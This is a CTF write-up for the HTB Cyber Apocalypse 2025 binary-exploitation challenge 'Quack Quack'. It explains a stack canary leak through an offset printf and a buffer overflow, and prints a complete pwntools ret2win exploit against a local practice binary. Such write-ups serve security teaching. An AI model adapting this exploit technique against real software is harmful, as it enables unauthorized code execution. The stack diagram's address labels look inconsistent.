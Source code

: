 ```yaml
---
title: "Quack Quack 🦆 - Stack Canary Exploit Writeup"
tags: [CTF, binary exploitation, stack canary, ret2win, pwn]
---
```


# Quack Quack 🦆

![pwntools](https://img.shields.io/badge/pwntools-✔️-brightgreen)
![Difficulty](https://img.shields.io/badge/difficulty-Easy-blue)
![Category](https://img.shields.io/badge/category-Pwn-orange)
![CTF](https://img.shields.io/badge/Event-HTB%20Cyber%20Apocalypse%202025-purple)

On the quest to reclaim the Dragon's Heart, the wicked Lord Malakar has cursed the villagers, turning them into ducks! Join Sir Alaric in finding a way to defeat them without causing harm.

**Quack Quack**, it's time to face the Duck!

## 📚 Table of Contents

- [Initial Inspection 🕵️](#initial-inspection-%EF%B8%8F)
- [Key observation 🔍](#key-observation-)
- [Vulnerabilities 🧠](#vulnerabilities-)
- [Stack Overflow Explained 🧵](#stack-overflow-explained-)
- [📌 Stack layout (simplified)](#-stack-layout-simplified)
- [Full exploit 🎯](#full-exploit-)
- [Conclusion 🧠](#conclusion-)

## Initial Inspection 🕵️

First we can check the protections enabled on the binary:

![image](https://github.com/user-attachments/assets/632ab392-d266-4b5b-8342-2e543a6702e0)

We can see that there is a canary. Then, in Ghidra:

![image](https://github.com/user-attachments/assets/ab52d254-fd1b-4f6b-8f73-2976fce00e0d)

## Key observation 🔍

We can see that in the first input, we must put "Quack Quack ", otherwise the binary displays "Where are your Quack Manners?!" and exit.

Four interesting lines here:
- `read(0, &local_88, 0x66);` → reads 102 bytes into the buffer
- `pcVar1 = strstr((char *)&local_88, "Quack Quack ");` → finds the position of our marker string
- `printf("Quack Quack %s, ready to fight the Duck?\n\n> ", pcVar1 + 0x20);` → prints data starting 32 bytes after our string (leak!)
- `read(0, &local_68, 0x6a);` → overflow is possible here (stack write past the buffer)

## Vulnerabilities 🧠

This 0x20 offset lets us leak data from the stack, starting 0x20 bytes after our "Quack Quack ", which helps us reach part of the canary.

Let's try to push a string with a specific length, and "Quack Quack " at the very end: 

- 0x66 => 102 in decimal
- "Quack Quack " => 12 characters

After some debugging with gdb, I saw that I needed exactly 89 + 12 characters to reach the canary:

```
from pwn import *

p = process("./vuln")

offset_to_canary = 89
payload = b"A" * offset_to_canary
payload += b"Quack Quack "

p.sendafter(b'> ', payload)

p.recvuntil(b'Quack Quack ')
leak = p.recvuntil(b', ready to fight the Duck?', drop=True)

canary_partial = leak[:7]

canary = b'\x00' + canary_partial
canary_val = u64(canary)

log.success(f"Canary leak : {hex(canary_val)}")
```

![image](https://github.com/user-attachments/assets/dcc251ad-8d84-4e01-8e58-7bc934893c4f)

Ok, now we leaked the canary, we're able to overwrite RIP and take control of the win function, "duck_attack".

## Stack Overflow Explained 🧵

Why does the second read() allow us to overwrite the stack canary and return address?

Let’s take a closer look at the vulnerable function:

```
read(0, &local_88, 0x66); // First read (102 bytes)
...
read(0, &local_68, 0x6a); // Second read (106 bytes) - the overflow
```

## 📌 Stack layout (simplified)

Here’s how the local variables are laid out on the stack:

```
|---------------------| <- higher address
|    local_88         |  ← 120 bytes total buffer (15 × 8 bytes)
|---------------------|
|     local_10        |  ← stack canary
|---------------------|
|     saved RBP       |
|---------------------|
|     return address  | <- lower address
```
The stack grows downward in memory (higher → lower addresses)

Now, look at the second read:

```
read(0, &local_68, 0x6a); // 106 bytes
```

We're writing **106 bytes** starting from `&local_68`, which is **not the start** of the buffer — it's **already 32 bytes down** (because `local_88` to `local_68` spans 4 × 8 bytes = 32 bytes).

So how much space is left?
- Total buffer size = 120 bytes
- Offset to local_68 = 32 bytes
- Remaining space = 120 - 32 = 88 bytes
- Data written = 106 bytes
    → Overflow of 18 bytes


![image](https://github.com/user-attachments/assets/d49253e1-4c63-4377-8590-72eb7080e0fa)

The win function, "duck_attack", located at the address "0x0040137f" **(NO PIE)**

## Full exploit 🎯

```
from pwn import *

p = process("./vuln")

offset_to_canary = 89
payload = b"A" * offset_to_canary
payload += b"Quack Quack "

p.sendafter(b'> ', payload)

p.recvuntil(b'Quack Quack ')
leak = p.recvuntil(b', ready to fight the Duck?', drop=True)

canary_partial = leak[:7]

canary = b'\x00' + canary_partial
canary_val = u64(canary)

log.success(f"Canary leak : {hex(canary_val)}")

payload2  = b"A" * 88
payload2 += p64(canary_val)
payload2 += p64(0)
payload2 += p64(0x0040137f) # address of duck_attack()

p.sendafter(b'> ', payload2)

p.interactive()
```
(**More polished exploit here: [exploit.py](https://github.com/notagain-pwn/hackthebox/blob/main/CTF/Cyber%20Apocalypse%202025/pwn/Quack%20Quack/exploit.py)**)

![image](https://github.com/user-attachments/assets/76a2911b-254b-4b15-8c70-a74796145322)

Pwned! 🦆🔥

## Conclusion 🧠

By abusing a format-based leak and a stack canary bypass, we successfully redirected execution to the `duck_attack` function and defeated the cursed villagers. 
 
Sir Alaric wins again — without harming a single duck. 🦆✨

Final result: a clean ret2win exploit using stack leak, canary bypass, and precise buffer control — all thanks to a duck 🦆

🔙 [Back to Cyber Apocalypse 2025 Writeups](../../)
